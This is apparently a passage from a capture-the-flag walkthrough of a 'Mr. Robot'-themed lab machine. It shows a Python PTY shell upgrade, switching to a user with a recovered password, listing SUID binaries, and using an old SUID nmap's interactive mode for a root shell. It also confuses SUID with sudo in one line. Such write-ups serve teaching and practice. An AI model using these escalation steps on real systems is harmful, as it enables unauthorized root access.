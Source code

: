```
$ su robot
su: must be run from a terminal
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

Now we search for files with SUID permissions, those with the *s* bit enabled. This property is
necessary for normal users to perform tasks that require more privileges:

```
robot@linux:~$ find /* -user root -perm -4000 -print 2> /dev/null
find /* -user root -perm -4000 -print 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$ 
```

From this list we will choose */usr/local/bin/nmap*, we can see the *s* in *-rw**s**r-xr-x*:

```
robot@linux:~$ ls -ls /usr/local/bin/nmap
ls -ls /usr/local/bin/nmap
496 -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```

This nmap is an older version, nmap 3.81 when the current version is 7.92, that allows *interactive mode*, we can check it out running it without any parameters.

The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.

As nmap has been run with *sudo* privileges we can run a shell with privileges.

!["Shell with root permissions"](images/image09.png "Shell with root permissions")
